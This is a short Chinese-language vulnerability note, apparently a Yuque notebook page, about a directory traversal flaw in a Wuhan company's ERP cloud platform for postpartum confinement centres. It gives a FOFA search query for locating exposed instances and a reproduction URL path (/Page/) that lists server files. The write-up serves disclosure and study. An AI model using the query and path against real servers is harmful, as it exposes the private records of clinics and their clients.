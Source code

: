 # 月子会所ERP管理云平台存在目录遍历漏洞

# 一、漏洞简介
月子会ERP管理云平台是由武汉金同方科技有限公司研发团队结合行业月子中心相关企业需求开发的一套综合性管理软件，管控月子中心经营过程中各个环节。武汉金同方科技月子会ERP管理云平台存在目录遍历漏洞，攻击者可利用该漏洞获取敏感信息。

# 二、影响版本
+ 月子会所ERP管理云平台

# 三、资产测绘
+ fofa`product="妈妈宝盒-ERP"`
+ 登录页面

![1693185375907-6915a126-7596-4142-b75c-f6a9c41760ab.png](./img/26m4xlcMgRMyEUJ7/1693185375907-6915a126-7596-4142-b75c-f6a9c41760ab-437960.png)

# 四、漏洞复现
```plain
http://xx.xx.xx.xx/Page/
```

![1693186499483-de262214-f715-46e2-9591-44bfe7eb1c08.png](./img/26m4xlcMgRMyEUJ7/1693186499483-de262214-f715-46e2-9591-44bfe7eb1c08-999200.png)



> 更新: 2024-02-29 23:55:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ybopp6ucfh9lsdrz>